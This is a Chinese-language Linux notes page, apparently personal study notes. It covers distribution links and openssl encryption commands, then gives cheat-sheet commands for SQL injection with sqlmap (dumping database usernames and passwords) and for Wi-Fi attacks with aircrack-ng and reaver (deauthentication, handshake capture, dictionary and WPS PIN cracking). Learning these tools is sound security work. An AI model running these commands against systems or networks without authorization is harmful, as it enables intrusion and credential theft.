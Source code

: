 # [Home](../README.md)
## [Linux](https://www.apiref.com/linux-zh/linux-command-manual.html)

![linux](https://www.runoob.com/wp-content/uploads/2014/06/d0c50-linux2bfile2bsystem2bhierarchy.jpg)

### Linux发行版
- [Ubuntu](http://www.ubuntu.com/)
- [Fedora](http://fedoraproject.org/)
- [Debian](http://www.debian.org/)
- [CentOS](http://www.centos.org/)
- [Arch](https://www.archlinux.org/)
- [Kali](https://www.kali.org/)
- [ElementaryOS](https://elementary.io/zh_CN/)
- [Nitrux](https://nxos.org/)
### openssl
> 加密

```shell
echo '明文' | openssl aes-128-cbc -k "key" -base64
```

>解密

```shell
echo "U2FsdGVkX19nGdcPGq41k5Nq92WRzXIkH1YVcBAjJpQ=" | openssl aes-128-cbc -d -k "key" -base64
echo "U2FsdGVkX19nGdcPGq41k5Nq92WRzXIkH1YVcBAjJpQ=" | tr ' ' '\n' | openssl aes-128-cbc -d -k "key" -base64
```

```shell
#Standard commands
asn1parse         ca                ciphers           cms
crl               crl2pkcs7         dgst              dhparam
dsa               dsaparam          ec                ecparam
enc               engine            errstr            gendsa
genpkey           genrsa            help              list
nseq              ocsp              passwd            pkcs12
pkcs7             pkcs8             pkey              pkeyparam
pkeyutl           prime             rand              rehash
req               rsa               rsautl            s_client
s_server          s_time            sess_id           smime
speed             spkac             srp               storeutl
ts                verify            version           x509

#Message Digest commands (see the `dgst' command for more details)
blake2b512        blake2s256        gost              md4
md5               mdc2              rmd160            sha1
sha224            sha256            sha3-224          sha3-256
sha3-384          sha3-512          sha384            sha512
sha512-224        sha512-256        shake128          shake256
sm3

#Cipher commands (see the `enc' command for more details)
aes-128-cbc       aes-128-ecb       aes-192-cbc       aes-192-ecb
aes-256-cbc       aes-256-ecb       aria-128-cbc      aria-128-cfb
aria-128-cfb1     aria-128-cfb8     aria-128-ctr      aria-128-ecb
aria-128-ofb      aria-192-cbc      aria-192-cfb      aria-192-cfb1
aria-192-cfb8     aria-192-ctr      aria-192-ecb      aria-192-ofb
aria-256-cbc      aria-256-cfb      aria-256-cfb1     aria-256-cfb8
aria-256-ctr      aria-256-ecb      aria-256-ofb      base64
bf                bf-cbc            bf-cfb            bf-ecb
bf-ofb            camellia-128-cbc  camellia-128-ecb  camellia-192-cbc
camellia-192-ecb  camellia-256-cbc  camellia-256-ecb  cast
cast-cbc          cast5-cbc         cast5-cfb         cast5-ecb
cast5-ofb         des               des-cbc           des-cfb
des-ecb           des-ede           des-ede-cbc       des-ede-cfb
des-ede-ofb       des-ede3          des-ede3-cbc      des-ede3-cfb
des-ede3-ofb      des-ofb           des3              desx
rc2               rc2-40-cbc        rc2-64-cbc        rc2-cbc
rc2-cfb           rc2-ecb           rc2-ofb           rc4
rc4-40            seed              seed-cbc          seed-cfb
seed-ecb          seed-ofb          sm4-cbc           sm4-cfb
sm4-ctr           sm4-ecb           sm4-ofb           zlib
```
### SQL注入
```shell
sqlmap -u url --dbs --current-user	
sqlmap -u url --dbms mysql -D dbName --tables
sqlmap -u url --dbms mysql -T admin --columns
sqlmap -u url --dbms mysql -T admin -C field1, field2 --dump

sqlmap -u url?id=1
sqlmap -u url?id=1 --dbs
sqlmap -u url?id=1 --current-db		#列出当前使用的数据库名
sqlmap -u url?id=1 --tables -D "db_name"
sqlmap -u url?id=1 --columns -T "tb_name" -D "db_name"
sqlmap -u url?id=1 --dump -C "username, password" -T "tb_name" -D "db_name"

sqlmap -u url?id=1 --is-dbs #判断该注入点是否有管理员权限，true表示管理员
```

### wifi密码跑字典
```shell
airmon-ng check kill			#杀死进程
airmon-ng start wlan0			#是wlan0网卡开起monitor mode
airodump-ng wlan0mon			#查看附件wifi
airodump-ng --bssid mac地址 -c CH值 -w crack wlan0mon		#开始抓包

aireplay-ng --deauth 10 -a mac地址 -c 抓到的mac地址 wlan0mon
aircrack-ng -w 密码字典路径 crack-01.cap

airmon-ng stop wlan0mon		#关闭wlan0网卡monitor mode
```
### wifi跑pin码
```shell
airmon-ng start wlan0
wash -i wlan0mon
reaver -i wlan0mon -b mac地址 -S -N -vv -c CH值
```